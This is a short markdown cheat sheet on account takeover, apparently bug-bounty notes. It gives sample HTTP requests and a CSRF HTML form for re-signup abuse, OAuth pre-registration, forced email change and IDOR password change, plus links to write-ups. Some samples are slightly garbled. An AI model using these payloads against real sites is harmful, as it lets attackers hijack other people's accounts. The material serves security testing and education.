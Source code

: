 # Account Takeover

## Introduction
Account Takeover (known as ATO) is a type of identity theft where a bad actor gains unauthorized access to an account belonging to someone else.

## How to exploit
1. Using OAuth Misconfiguration
   - Victim has a account in evil.com
   - Attacker creates an account on evil.com using OAuth. For example the attacker have a facebook with a registered victim email
   - Attacker changed his/her email to victim email.
   - When the victim try to create an account on evil.com, it says the email already exists.

2. Try re-sign up using same email
   ```
   POST /newaccount HTTP/1.1
   ...
   email=victim@mail.com&password=1234
   ```
   After sign up using victim email, try signup again but using different password
   ```
   POST /newaccount HTTP/1.1
   ...
   email=victim@mail.com&password=hacked
   ```

3. via CSRF
   - Create an account as an attacker and fill all the form, check your info in the Account Detail.
   - Change the email and capture the request, then created a CSRF Exploit.
   - The CSRF Exploit looks like as given below. I have replaced the email value to anyemail@*******.com and submitted a request in the victim’s account.

   ```html
   <html>
   <body>
      <form action="https://evil.com/user/change-email" method="POST">
         <input type="hidden" value="victim@gmail.com"/>
         <input type="submit" value="Submit Request">
      </form>
   </body>
   </html>
   ```

4. Chaining with IDOR, for example
   ```
   POST /changepassword.php HTTP/1.1
   Host: site.com
   ...
   userid=500&password=heked123
   ```
   500 is an attacker ID and 501 is a victim ID, so we change the userid from attacker to victim ID

5. No Rate Limit on 2FA

References:
- [Pre-Account Takeover using OAuth Misconfiguration](https://vijetareigns.medium.com/pre-account-takeover-using-oauth-misconfiguration-ebd32b80f3d3)
- [Account Takeover via CSRF](https://medium.com/bugbountywriteup/account-takeover-via-csrf-78add8c99526)
- [How re-signing up for an account lead to account takeover](https://zseano.medium.com/how-re-signing-up-for-an-account-lead-to-account-takeover-3a63a628fd9f)